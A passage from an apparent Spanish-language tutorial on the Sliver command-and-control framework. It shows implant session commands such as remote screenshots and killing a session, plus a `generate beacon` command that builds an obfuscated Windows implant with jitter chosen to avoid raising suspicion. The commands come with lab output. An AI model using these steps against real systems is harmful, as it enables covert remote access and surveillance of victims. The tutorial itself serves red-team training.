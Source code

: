 Los implantes de sliver soportan varios comandos, para obtener una lista completa de que se puede hacer con cada uno de ellos, solo escriba el comando help. Entre sus funciones se incluyen la <mark style="color:green;">**exploración del sistema de archivos**</mark>, <mark style="color:green;">**la carga y descarga de archivos**</mark>, <mark style="color:green;">**el reenvío de puertos (Port forwarding)**</mark>, la realización de <mark style="color:green;">**capturas de pantalla**</mark> y mucho más.

Por ejemplo ocupar el comando `screenshot` para comar capturas de pantalla remota

{% code overflow="wrap" %}
```bash
sliver (GROSS_DRIVER) > screenshot 

[*] Screenshot written to /tmp/screenshot_DESKTOP-V9TDLK0_20231127102024_3458765952.png (255.0 KiB)
```
{% endcode %}

Cuando se termine de realizar acciones con la sesión se puede escribir el comando `background` para enviar en segunda tarea la sesión, o el comando `session -k <ID>` para terminar la sesión

{% code overflow="wrap" %}
```bash
sliver (GROSS_DRIVER) > background 

[*] Background ...

[server] sliver > sessions -k 48c846a5

[!] Lost session 48c846a5 GROSS_DRIVER - 172.19.0.131:49793 (DESKTOP-V9TDLK0) - windows/amd64 - Mon, 27 Nov 2023 10:24:52 CST
```
{% endcode %}

## Beacons

### Generación de implante

Para generar un implante de tipo beacon es muy similar a los implantes de tipo session. Solo ocupe el comando `generate beacon`. De igual forma para saber todas la combinaciones y configuraciones disponibles solo coloque la bandera `--help` delante del comando. Las banderas mas relevantes a configurar serían las siguientes:

* `--seconds 5`: Especifica al beacon cuanto tiempo en segundos debería conectarse al servidos C2. Se puede usar de forma alternativa los siguientes switches `--minutes`, `--hours` o `--days`.
* `--jitter 3`: Especificación adicional de un delay random entre conexiones, esto para evitar levantar sospechas de conexiones periódicas, en este caso es de 3 segundos.&#x20;

{% code overflow="wrap" %}
```ruby
generate beacon --mtls 172.19.0.128 --os windows --arch amd64 --format exe --seconds 5 --jitter 3
```
{% endcode %}

{% code overflow="wrap" %}
```bash
sliver > generate beacon --mtls 172.19.0.128 --os windows --arch amd64 --format exe --seconds 5 --jitter 3

[*] Generating new windows/amd64 beacon implant binary (5s)
[*] Symbol obfuscation is enabled
[*] Build completed in 31s
[*] Implant saved to /home/kali/Documents/sliverTest/PLEASED_ATTIC.exe
```
{% endcode %}

